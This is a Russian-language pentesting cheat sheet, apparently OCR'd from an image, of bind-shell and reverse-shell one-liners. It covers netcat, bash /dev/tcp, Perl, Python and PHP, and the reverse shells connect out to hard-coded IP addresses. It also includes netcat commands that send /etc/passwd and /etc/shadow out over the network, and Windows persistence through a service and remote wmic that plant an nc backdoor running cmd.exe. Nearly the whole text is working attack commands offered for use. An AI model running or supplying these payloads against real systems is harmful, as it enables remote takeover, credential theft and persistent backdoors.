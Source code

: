 #Bind Shell

##Nc
`nc -lvp 4444 -e /bin/sh`

##Web-сервер
`python3 -m http.server`

##Подключение
`nc 192.168.1.135 4444`

#Reverse Shell

##Tcp Linux
`bash -i >& /dev/tcp/172.15.9.212/4444 0>&1`

## Nc Linux 

### Параметры

`-n` - don't perform a name lookup
`-v` - verbose, show when a connection is established
`-l` - visten
`-p` - the port to listen on
`-z` - without sending any data
`-w2` - waiting no more than two seconds for a connection to occur
`-d` - (windows only) detached process, поэтому не появляется консольное окно

Создание простого шелла:

`nc 10.0.2.15 4444 -e /bin/bash`

Выгрузка тексового файла пользователя:

`nc -nvlp 8080 < /etc/passwd`

Выгрузка текстого файла, требующего повышения привилегий:

`sudo cat /etc/shadow | nc -nvlp 8080`

Выгрузка бинарного файла:

`nc -vnlp 8080 < ./i.jpeg`

`nc 192.168.1.114 8080 > i.jpeg`

## Nc Windows 

### Запуск через сервис (от System)

Локальное создание и запуск службы:

`sc create PersistNcService binpath= "cmd.exe /k c:\tools\netcat-win32-1.12\nc.exe -l -p 3333 -e cmd.exe" start=auto`

Живёт более 30 секунд за счёт _cmd.exe /k_
`cmd /K` carries out the command specified by string but remains

Удалённое создание и запуск службы:

???????????????????????

### Запуск через wmic (от Администратора)

Локальный запуск

`wmic process call create "c:\tools\netcat-win32-1.12\nc.exe -ldp 4444 -e cmd.exe"`

Удалённых запуск

`wmic /node:192.168.1.15 /user:"user" /password:"password" process call create "c:\tools\netcat-win32-1.12\nc.exe -ldp 4444 -e cmd.exe"`

`-d` - detached process, поэтому не появляется консольное окно

Завершение работы

`wmic process where name="nc.exe" delete`

##Perl

`perl -e 'use Socket;$i="192.168.1.135";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

##Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.135",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`


##Php
`php -r '$sock=fsockopen("192.168.1.135",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

##Создание сервера
`nc -lvp 4444`